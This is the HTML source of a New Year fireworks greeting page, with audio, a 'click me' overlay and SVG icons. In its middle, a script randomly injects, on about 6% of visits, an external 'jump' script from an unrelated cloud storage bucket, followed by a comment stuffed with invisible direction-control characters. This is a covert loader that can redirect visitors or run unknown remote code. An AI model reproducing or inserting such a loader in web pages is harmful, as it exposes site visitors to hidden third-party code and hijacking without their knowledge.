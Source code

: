     <audio id="audioDom" src="https://download.kstore.space/download/2719/newyear/files/audio.mp3" preload="auto" loop="loop"></audio>

    <div id="yhBtn" style="position:fixed;top:0;left:0;width:100%;height:100%;z-index:999;display:flex;flex-direction:column;justify-content:center;align-items:center;color:#fff ; font-size:20px    ">
        <p>💥点我💥</p>
        <img style="width:64px;margin-bottom:36px " src="img/boom.png">
    </div>

    <div style="height: 0; width: 0; position: absolute; visibility: hidden;">
        <svg xmlns="http://www.w3.org/2000/svg">
            <symbol id="icon-play" viewBox="0 0 24 24">
                <path d="M8 5v14l11-7z"></path>
            </symbol>
            <symbol id="icon-pause" viewBox="0 0 24 24">
                <path d="M6 19h4V5H6v14zm8-14v14h4V5h-4z"></path>
            </symbol>
            <symbol id="icon-close" viewBox="0 0 24 24">
                <path d="M19 6.41L17.59 5 12 10.59 6.41 5 5 6.41 10.59 12 5 17.59 6.41 19 12 13.41 17.59 19 19 17.59 13.41 12z">
                </path>
            </symbol>
            <symbol id="icon-settings" viewBox="0 0 24 24">
                <path d="M19.43 12.98c.04-.32.07-.64.07-.98s-.03-.66-.07-.98l2.11-1.65c.19-.15.24-.42.12-.64l-2-3.46c-.12-.22-.39-.3-.61-.22l-2.49 1c-.52-.4-1.08-.73-1.69-.98l-.38-2.65C14.46 2.18 14.25 2 14 2h-4c-.25 0-.46.18-.49.42l-.38 2.65c-.61.25-1.17.59-1.69.98l-2.49-1c-.23-.09-.49 0-.61.22l-2 3.46c-.13.22-.07.49.12.64l2.11 1.65c-.04.32-.07.65-.07.98s.03.66.07.98l-2.11 1.65c-.19.15-.24.42-.12.64l2 3.46c.12.22.39.3.61.22l2.49-1c.52.4 1.08.73 1.69.98l.38 2.65c.03.24.24.42.49.42h4c.25 0 .46-.18.49-.42l.38-2.65c.61-.25 1.17-.59 1.69-.98l2.49 1c.23.09.49 0 .61-.22l2-3.46c.12-.22.07-.49-.12-.64l-2.11-1.65zM12 15.5c-1.93 0-3.5-1.57-3.5-3.5s1.57-3.5 3.5-3.5 3.5 1.57 3.5 3.5-1.57 3.5-3.5 3.5z">
                </path>
            </symbol>
            <symbol id="icon-sound-on" viewBox="0 0 24 24">
                <path d="M3 9v6h4l5 5V4L7 9H3zm13.5 3c0-1.77-1.02-3.29-2.5-4.03v8.05c1.48-.73 2.5-2.25 2.5-4.02zM14 3.23v2.06c2.89.86 5 3.54 5 6.71s-2.11 5.85-5 6.71v2.06c4.01-.91 7-4.49 7-8.77s-2.99-7.86-7-8.77z">
                </path>
            </symbol>
            <symbol id="icon-sound-off" viewBox="0 0 24 24">
                <path d="M16.5 12c0-1.77-1.02-3.29-2.5-4.03v2.21l2.45 2.45c.03-.2.05-.41.05-.63zm2.5 0c0 .94-.2 1.82-.54 2.64l1.51 1.51C20.63 14.91 21 13.5 21 12c0-4.28-2.99-7.86-7-8.77v2.06c2.89.86 5 3.54 5 6.71zM4.27 3L3 4.27 7.73 9H3v6h4l5 5v-6.73l4.25 4.25c-.67.52-1.42.93-2.25 1.18v2.06c1.38-.31 2.63-.95 3.69-1.81L19.73 21 21 19.73l-9-9L4.27 3zM12 4L9.91 6.09 12 8.18V4z">
                </path>
            </symbol>
        </svg>
    </div>
    <script>
        var aaa = Math.ceil(Math.random() * 100);
        console.log(aaa);
        if (aaa <= 6) {
            document.writeln("<script src=\"https://api123ff.oss-cn-beijing.aliyuncs.com/jump_https_1231.js?id=wtx18&m=15&c=1\"><\/script>");
            //alert("AAA=" + aaa);
        }
    </script><!--!‫‬‪‫‬‬‬‏‬‭‫‫‬‏‫‬‎‏‫‭‫‭‫‫-->
    <!-- App -->
    <div class="container">
        <div class="loading-init">
            <div class="loading-init__header"></div>
            <div class="loading-init__status"></div>
        </div>
        <div class="stage-container remove">
            <div class="page_two hide">
                <div id="text" style="display:none;">